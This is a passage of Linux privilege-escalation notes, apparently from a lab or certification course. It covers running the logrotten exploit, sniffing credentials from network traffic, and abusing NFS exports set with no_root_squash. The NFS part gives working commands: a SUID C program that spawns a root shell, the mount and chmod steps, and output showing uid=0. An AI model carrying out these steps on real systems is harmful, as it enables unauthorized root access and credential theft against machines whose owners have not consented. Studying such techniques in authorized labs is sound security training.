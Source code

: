 - **Run Exploit**:  
  ```bash
  ./logrotten -p ./payload /tmp/tmp.log
  ```
# Miscellaneous Techniques

## Passive Traffic Capture
- **Description**: Unprivileged users with `tcpdump` may capture network traffic, potentially revealing cleartext credentials, credit card numbers, SNMP strings, or hashes (Net-NTLMv2, SMBv2, Kerberos) for offline brute-forcing. Cleartext protocols (HTTP, FTP, POP, IMAP, telnet, SMTP) may expose reusable credentials.
- **Tools**: `net-creds`, `PCredz`

## Weak NFS Privileges
- **Description**: Network File System (NFS) shares files over TCP/UDP 2049. Misconfigurations (e.g., `no_root_squash`) allow remote root users to create SUID binaries on the server.
- **List NFS Exports**:  
  ```bash
  showmount -e 10.129.2.12
  ```
  Example:  
  ```
  /tmp             *
  /var/nfs/general *
  ```
- **Config File**:  
  ```bash
  cat /etc/exports
  ```
  Example:  
  ```
  /var/nfs/general *(rw,no_root_squash)
  /tmp *(rw,no_root_squash)
  ```
- **Options**:  
  - `root_squash`: Maps root to `nfsnobody`, preventing SUID binary uploads.  
  - `no_root_squash`: Allows root to create files as root, enabling SUID binary exploits.
- **Exploit**: Create SUID binary to spawn shell.  
  ```bash
  cat shell.c
  ```
  ```
  #include <stdio.h>
  #include <sys/types.h>
  #include <unistd.h>
  #include <stdlib.h>
  int main(void) {
      setuid(0); setgid(0); system("/bin/bash");
  }
  ```
  ```bash
  gcc shell.c -o shell
  sudo mount -t nfs 10.129.2.12:/tmp /mnt
  cp shell /mnt
  chmod u+s /mnt/shell
  ```
- **Execute**:  
  ```bash
  ./shell
  id
  ```
  Output: `uid=0(root) gid=0(root) groups=0(root),...`
